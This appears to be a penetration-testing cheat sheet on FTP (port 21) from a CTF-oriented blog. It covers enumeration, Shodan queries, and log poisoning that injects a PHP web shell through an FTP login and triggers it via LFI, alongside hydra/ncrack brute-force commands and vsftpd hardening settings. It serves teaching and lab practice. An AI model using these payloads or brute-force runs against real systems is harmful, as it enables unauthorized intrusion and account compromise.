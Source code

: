 ```yaml
---
title: 🟢 21 FTP (TCP)
date: 0021-01-01
layout: post
---
```


### Overview

[**File Transfer Protocol (FTP)**](https://en.wikipedia.org/wiki/File_Transfer_Protocol) is a standard network protocol used to transfer files from one host to another over a TCP-based network, such as the internet.  

Default Port: `21`  
```bash
PORT   STATE SERVICE
21/tcp open  ftp
```
 
When [Nmap](https://nmap.org) does not get the service header, it uses the [IANA](https://www.iana.org/assignments/service-names-port-numbers/service-names-port-numbers.xhtml) db to determine the name of the service associated with that port.

---

### Enumeration

#### Active

```bash
nc -vn 192.168.1.2 21
timeout 0.1 bash -c "nc -nv 192.168.1.2 21"
nmap -p21 -sS 192.168.1.2
nmap -p21 -sVC 192.168.1.2
nmap -p21 --script="ftp-anon" 192.168.1.2
nmap -p21 --script="ftp-*" 192.168.1.2
```

#### Pasive

##### [Shodan](https://shodan.io)

```bash
port:21
port:21 vsftpd
port:21 proftpd 1.3.5
port:21 os:"Linux"
port:21 os:"Windows"
port:21 country:"US"
port:21 country:"US" os:"Linux"
port:21 hostname:"ftp.domain.tld"
```

---

### Usage & Commands

```bash
# upload file
put cmd.php
# upload all files
mput *
# download
get config.php
# download all files
prompt off
mget *
# binary mode enable
binary
# exit
bye
# rename file
ftp> rename cmd.php
(to-name) cmd.php5
# read files from ftp
ftp> less .htaccess
ftp> more .htaccess
```

#### Connect

```bash
# default port (21)
ftp peter@192.168.1.2
ftp anonymous@192.168.1.2
ncftp -u peter -p 'Passw0rd' 192.168.1.2
lftp -u anonymous, 192.168.1.2
lftp -u peter,'Passw0rd' 192.168.1.2

# ftps (error: Fatal error: Certificate verification: Not trusted)
lftp :~> set ssl:verify-certificate false

# other port
lftp -u peter,'Passw0rd' 192.168.1.2 -p 1234
ncftp -u peter -p 'Passw0rd' -P 1234 192.168.1.2
```

---

### Remote Code Execution (RCE)

#### Log Poisoning

If it detects a **Local File Inclusion (LFI)** and manages to read the `/etc/passwd` file.  

> ##### WARNING
> You should also verify that **port 21 (FTP)** is in the **open** state.
{: .block-warning }

```bash
file.php?file=/etc/passwd
```

If we can read the **FTP log file** located at `/var/log/vsftpd.log`.

```bash
file.php?file=/var/log/vsftpd.log
```

An attacker can poison that log file by **injecting PHP code** into a fake login.

```bash
lftp -u '<?php system($_GET["cmd"]); ?>', 192.168.1.2
```

We now have **Remote Command Execution (RCE)** on the destination server.

```bash
file.php?file=/var/log/vsftpd.log&cmd=id
```

---

### Brute Force

#### Password

If you got a `username` and need the `password` this is the way.

```bash
# default port (21)
ncrack --user peter -P rockyou.txt ftp://192.168.1.2 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2 -f -I     # ftp
hydra -t 64 -l peter -P rockyou.txt ftps://192.168.1.2 -f -I    # ftps
# other port
ncrack --user peter -P rockyou.txt ftp://192.168.1.2:1234 -f
hydra -t 64 -l peter -P rockyou.txt ftp://192.168.1.2:1234 -f -I
```

#### Username

If you have a `password` and need the `username` this is the way.

```bash
# default port (21)
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2 -f
hydra -t 64 -L /opt/techyou.txt -p Passw0rd ftp://192.168.1.2 -f -I
# other port
ncrack -U users.dic --pass Passw0rd ftp://192.168.1.2:1234 -f
hydra -t 64 -L users.dic -p Passw0rd ftp://192.168.1.2:1234 -f -I
```

---

### Hardening & Configuration

#### Interesting Files

- `/srv/ftp` - Default **path**.
- `/var/log/vsftpd.log` - This file is for **logs**.
- `/etc/vsftpd.conf` - This file is for **configuration**.

#### Install

```bash
# client
apt install -y ftp
apt install -y lftp
# server
apt install -y vsftpd
```

#### Change Port

```bash
# default port
listen_port=21
# other port
listen_port=1234
```

#### User (Guest)

```bash
# enable
anonymous_enable=YES
# disable
anonymous_enable=NO
```

#### Banner Grabbing (Disable)

```bash
# show version
#ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd 3.0.3
# hidden version
ftpd_banner=Welcome to blah FTP service.
21/tcp open  ftp     vsftpd
```

#### Daemon (Listener)

```bash
# external (0.0.0.0)
listen_address=0.0.0.0
listen_port=21
listen=YES
# internal (localhost)
listen_address=127.0.0.1
listen_port=21
listen=YES
```

#### Service

```bash
service vsftpd start
service vsftpd stop
service vsftpd restart
service vsftpd status

/etc/init.d/vsftpd start
/etc/init.d/vsftpd stop
/etc/init.d/vsftpd restart
/etc/init.d/vsftpd status

systemctl start vsftpd
systemctl stop vsftpd
systemctl restart vsftpd
systemctl status vsftpd
```

---

##### Disclaimer

> ##### WARNING
> All techniques present in this blog are for educational, ethical or CTFs play solving purposes.  
> The [**VulNyx**](https://vulnyx.com) team is not responsible for any misuse or damage caused to third-party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span style="color: #ffffffa4;">© VulNyx 2023-2025</span>
</div>
